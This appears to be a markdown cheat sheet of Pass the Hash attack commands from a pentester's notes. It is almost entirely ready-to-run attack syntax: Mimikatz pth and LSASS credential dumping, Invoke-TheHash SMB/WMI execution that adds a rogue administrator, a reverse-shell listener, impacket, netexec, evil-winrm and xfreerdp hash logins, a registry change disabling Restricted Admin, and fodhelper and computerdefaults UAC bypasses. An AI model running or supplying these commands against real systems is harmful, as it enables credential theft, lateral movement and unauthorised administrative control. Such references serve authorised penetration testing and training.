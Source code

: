# Pass the Hash ([PtH](https://attack.mitre.org/techniques/T1550/002/))

## [Mimikatz](https://github.com/gentilkiwi) (Windows)

Mimikatz has a module named `sekurlsa::pth` that allows you to perform a Pass the Hash attack by starting a process using the hash of the user's password.

```cmd
# /rc4 or /NTLM - NTLM hash of the user's password
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:example.com /run:cmd.exe" exit
```

---

## PowerShell [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) (Windows)

>Invoke-TheHash contains PowerShell functions for performing pass the  hash WMI and SMB tasks. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash  into the NTLMv2 authentication protocol. Local administrator privilege  is not required client-side.

Local administrator privileges are not required client-side, but the  user and hash use to authenticate need to have administrative rights on the target computer.

### Invoke-TheHash with SMB

The following command will use the SMB method for command execution to  create a new user named mark and add the user to the Administrators  group:

```powershell
Import-Module .\Invoke-TheHash.psd1

# Can be used with the WMI as well
Invoke-SMBExec -Target 172.16.1.10 -Domain example.com -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

Can also be used to invoke a reverse shell on the target machine with `-Command`

- `.\nc.exe -lvnp 8001`
- [Reverse Shell Generator](https://www.revshells.com/) - PowerShell #3 (Base64)

### Invoke-TheHash with WMI

```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-WMIExec -Target DC01 -Domain example.com -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e --Payload--"
```

---

## Linux

### Impacket PsExec

`````bash
impacket-psexec john@10.129.201.126 -hashes :c4b0e1b10c7ce2c4723b4e2407ef81a2
`````

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### NetExec

`````bash
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
`````

To perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` and|or `-x` to execute commands.

#### Command Execution

```bash
netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

```bash
evil-winrm -i 10.129.204.23 -u john -H c4b0e1b10c7ce2c4723b4e2407ef81a2
```

### RDP

Perform an RDP PtH attack to gain GUI access using `xfreerdp`.

```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

If there is a restricted error ***exec*** in and run:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### Extracting credentials with [Mimikatz](https://github.com/ParrotSec/mimikatz)

Dump credentials from memory using the `sekurlsa` module, or manually decrypt credentials using the `dpapi` module.

May need to bypass UAC if no admin rights, impersonation does not grant admin permissions.

```cmd
# Target the LSASS process with sekurlsa:
C:\Users\Administrator\Desktop> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

# Credential Manager
mimikatz # sekurlsa::credman

# Local passwords and hashes
mimikatz # sekurlsa::logonpasswords
```

Methods for getting passed UAC if no admin access:

```cmd
# fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```

## Note

> UAC (User Account Control) limits local users' ability to perform remote administration operations. if `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500,  "Administrator") is the only local account allowed to perform remote  administration tasks. Setting it to 1 allows the other local admins as  well.

> There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even  if it is renamed) is enrolled in UAC protection. This means that remote  PTH will fail against the machine when using that account. 
